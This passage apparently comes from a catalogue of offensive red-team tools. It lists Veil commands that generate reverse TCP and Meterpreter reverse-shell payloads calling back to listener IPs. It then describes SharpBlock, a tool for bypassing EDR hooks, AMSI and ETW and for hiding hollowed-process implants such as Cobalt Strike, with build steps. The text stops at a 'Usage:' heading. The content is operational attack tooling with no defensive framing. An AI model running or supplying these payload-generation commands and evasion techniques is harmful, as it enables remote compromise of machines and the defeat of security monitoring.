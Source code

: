# List all payloads (–list-payloads) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-payloads

# List all encoders (–list-encoders) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-encoders

# Generate a reverse tcp payload which connects back to the ip 192.168.1.20 on port 1234
./Veil.py -t Ordnance --ordnance-payload rev_tcp --ip 192.168.1.20 --port 1234

# List all payloads (–list-payloads) for the tool Evasion (-t Evasion)
./Veil.py -t Evasion --list-payloads

# Generate shellcode using Evasion, payload number 41, reverse_tcp to 192.168.1.4 on port 8676, output file chris
./Veil.py -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.4 --port 8676 -o chris
Veil creators wrote a nice blog post explaining further ordnance and evasion command line usage.

image

🔙SharpBlock
A method of bypassing EDR's active projection DLL's by preventing entry point execution.

Features:

Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
Host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike).
Implanted process is hidden to help evade scanners looking for hollowed processes.
Command line args are spoofed and implanted after process creation using stealthy EDR detection method.
Patchless ETW bypass.
Blocks NtProtectVirtualMemory invocation when callee is within the range of a blocked DLL's address space.
Install:

Use Visual Studio 2019 Community Edition to compile the SharpBlock binary.

Open the SharpBlock project .sln, choose "Release", and build.

Usage:
